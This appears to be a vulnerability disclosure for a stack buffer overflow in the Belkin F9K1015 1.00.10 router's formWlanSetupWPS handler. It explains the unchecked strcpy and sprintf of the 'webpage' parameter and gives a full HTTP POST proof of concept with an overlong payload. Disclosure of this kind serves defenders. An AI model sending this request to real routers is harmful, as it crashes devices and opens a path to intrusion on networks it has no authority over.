

# Belkin F9K1015 formWlanSetupWPS
### Overview
vendor: Belkin

product: F9K1015

version: 1.00.10

type: Stack Overflow
### Vulnerability Description
Belkin F9K1015 1.00.10 router has a serious buffer overflow vulnerability. This vulnerability can be triggered through the route /goform/formWlanSetupWPS.
### Vulnerability Details
In the `formWlanSetupWPS` function, the value of the `webpage` parameter is obtained via a post request, and the variable is passed to the `strcpy` function without any length check. Then, the `last_url` variable is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s`.



### POC
```
POST /goform/formWlanSetupWPS HTTP/1.1
Host: 192.168.206.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 1051
Origin: http://192.168.206.1
Connection: keep-alive
Referer: http://192.168.206.1/index2.asp
Upgrade-Insecure-Requests: 1
Priority: u=4

WPSHWEnable=0&h_wps_action=5&selected_band=&webpage=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```